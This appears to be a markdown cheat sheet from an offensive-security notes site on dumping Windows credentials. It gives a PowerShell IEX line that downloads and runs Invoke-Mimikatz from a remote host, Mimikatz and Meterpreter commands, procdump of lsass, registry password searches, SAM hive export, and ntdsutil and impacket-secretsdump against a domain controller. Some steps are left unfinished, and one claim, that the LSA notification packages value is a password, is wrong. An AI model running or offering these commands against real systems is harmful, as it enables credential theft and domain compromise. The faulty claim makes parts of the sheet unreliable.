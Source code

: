 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# Dumping Credentials with Mimikatz and Other Tools
## Usefull Information
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory
https://www.offensive-security.com/metasploit-unleashed/mimikatz/

## Download
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Mimkatz Commands
Checking permissions:  
privilege::debug  
Dumping passwords:  
sekurlsa::logonpasswords  
Dumping passwords cleartext:  
sekurlsa::wdigest  

With Meterpreter you can use these following commands:  
hashdump  
load mimikatz  
help mimikatz  
mimikatz_command -f version  

Other Meterpreter commands which use Mimikatz
msv  
kerberos  
mimikatz_command -f samdump::hashes  

# Dumping Credentials without Mimikatz
## Dimping Lsass without mimikatz
1. Open Task Manager
2. Rignt click on lsass.exe

## Dumping with Procdump
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

## Creds in Registry
```powershell
reg query HKLM /f password /t REG_SZ /s
# or
reg query HKCU /f password /t REG_SZ /s
```
Passwords can be found with this filter
```powershell
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
value of notification packages is a password

## Dumping SAM Registry
```powershell
reg save hklm\system system
reg save hklm\sam sam
```

# Dumping a Domain Controller
## Dumping DC Passwords Locally
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

## Dumping DC Passwords Remotly (Password Required)
```powershell
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```
